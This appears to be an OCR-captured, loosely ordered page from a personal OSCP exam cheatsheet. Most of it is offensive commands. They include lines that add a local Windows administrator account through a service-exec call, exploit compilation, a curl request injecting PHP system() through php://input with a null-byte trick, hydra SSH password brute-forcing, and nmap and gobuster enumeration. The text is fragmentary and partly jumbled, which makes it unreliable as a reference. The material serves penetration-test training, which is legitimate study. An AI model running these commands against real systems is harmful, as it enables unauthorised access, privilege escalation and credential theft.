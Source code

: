     service_exec(conn, r'cmd /c net user bill pass /add')
    service_exec(conn, r'cmd /c net localgroup administrators bill /add') 

# OSCP Cheatsheet

The following collection is a wild (but structured) selection of commands, snippets, links, exploits, tools, lists and techniques I personally tested and used on my journey to becoming an OSCP. I will extend, restructure and update it from time to time, so let's see where this is going. 

**THIS IS WORK IN PROGRESS**

gcc -m32 -Wl,--hash-style=both -o exploit 18411.c 
Standalone GCC compiler (If machine does not have GCC)
chmod (file) 	- 	change file perms to be able to execute
socat TCP-LISTEN:51000,fork,reuseaddr OPENSSL:remotehost:51000,cafile=certificate.pem,verify=0

Mingw:
 i686-w64-mingw32- gcc(g++) exploit.c -o exploit -lws2_32

in case mingw32 does not support the code such as "__try" , compile in a windows vm:
Visual Studio Developer Command Line  (Developer Command Prompt for VS )
cl ex.cpp /link kernel32.lib shell32.lib user32.lib  

curl -s --data "<?system('ls -la');?>" "http://www.site/path/advanced_comment_system/admin.php?ACS_path=php://input%00"

## Disclaimer
This cheatsheet is definitely not "complete". I am sure i forgot to write down hundreds of essential commands, used most of them in the wrong way with unnessecary flags and you'll  probably soon ask yourself how i've even made it through the exam. Also you might think a certain tool used should be in another phase of the attack (e.g certain nmap vulnerabitly scripts should be in Exploitation). That's okay, imho the edges between different stages of a penetration test are very blurry. Feel free to issue a PR if you want to help to improve the list.
**Use for educational purposes only!**

 hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://192.168.1.123

 sudo nmap -A -p80 --open 10.11.1.0/24 -oG nmap-scan_10.11.1.1-254
  cat nmap-scan_10.11.1.1-254
  cat nmap-scan_10.11.1.1-254 | grep 80
  cat nmap-scan_10.11.1.1-254 | grep 80 | grep -v "Nmap"
  cat nmap-scan_10.11.1.1-254 | grep 80 | grep -v "Nmap" | awk '{print
$2}'
for ip in $(cat nmap-scan_10.11.1.1-254 | grep 80 | grep -v "Nmap" |
awk '{print $2}'); do cutycapt --url=$ip --out=$ip.png;done

sudo gobuster dir -u http://10.11.1.71/ -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -s '200,204,301,302,307,403,500' -e -k
for files
-x php,txt,cnf,conf

gobuster dir -u http://example.com -w /usr/share/wordlists/dirb/common.txt -x html


sudo gobuster dir -e -u http://192.168.0.1 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -s '200,204,301,302,307,403,500' -k
